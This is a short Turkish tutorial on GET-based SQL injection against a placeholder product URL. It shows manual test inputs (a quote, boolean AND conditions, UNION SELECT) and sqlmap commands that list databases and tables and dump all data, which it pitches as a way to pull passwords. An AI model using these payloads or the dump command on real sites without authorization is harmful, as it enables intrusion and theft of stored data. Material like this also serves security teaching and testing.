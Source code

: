 📌 SQL Enjeksiyonu (SQLi) - GET Metodu Üzerinden Saldırı
1️⃣ GET Tabanlı SQL Enjeksiyonu Nedir?
GET metodu, web uygulamalarında URL parametreleri aracılığıyla veri iletmek için kullanılır. Eğer geliştirici girişleri düzgün şekilde filtrelememişse, saldırganlar URL üzerinden SQL sorgularını manipüle edebilir.
📌 Örnek Hedef URL:
plaintext
```sql
https://target.com/product.php?id=5
```

Eğer id parametresi doğrudan SQL sorgusuna ekleniyorsa:
sql
```sql
SELECT * FROM products WHERE id = '5';
```

Bu sorgu, saldırıya açık olabilir.


2️⃣ GET SQLi Testi (Manuel)
Web sitesinin SQL Injection’a karşı savunmasız olup olmadığını anlamak için birkaç temel test yapılabilir.
🔹 1. Tek Tırnak (') ile Test Etme
plaintext
```sql
https://target.com/product.php?id=5'
```
Eğer hata mesajı alırsanız (örneğin MySQL syntax error), hedef SQL Injection’a karşı savunmasız olabilir.
🔹 2. Boolean-Based SQLi Testi
Bu test, farklı ifadelerin TRUE veya FALSE sonuçları verip vermediğini kontrol eder.
✅ Doğru Sonuç Döndürmeli
plaintext
https://target.com/product.php?id=5 AND 1=1
❌ Hata veya Boş Sayfa Döndürmeli
plaintext
https://target.com/product.php?id=5 AND 1=2
Eğer sayfa değişiyorsa, SQL Injection açığı olabilir.
🔹 3. UNION Based SQLi Testi
plaintext
```sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3--
```
📌 Eğer site açık verirse, sayfanın farklı kısımlarında 1, 2, 3 gibi değerleri görebilirsiniz.

3️⃣ SQLmap ile GET SQLi Testi
Eğer GET parametresi saldırıya açık görünüyorsa, SQLmap kullanılarak otomatik test yapılabilir.
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
✅ --dbs: Veritabanı isimlerini listeler.
```
📌 Eğer daha fazla detay istenirse:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --tables
✅ --tables: Veritabanındaki tabloları gösterir.
```
📌 Eğer şifreleri çekmek isterseniz:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dump
✅ --dump: Tüm verileri çeker.
```

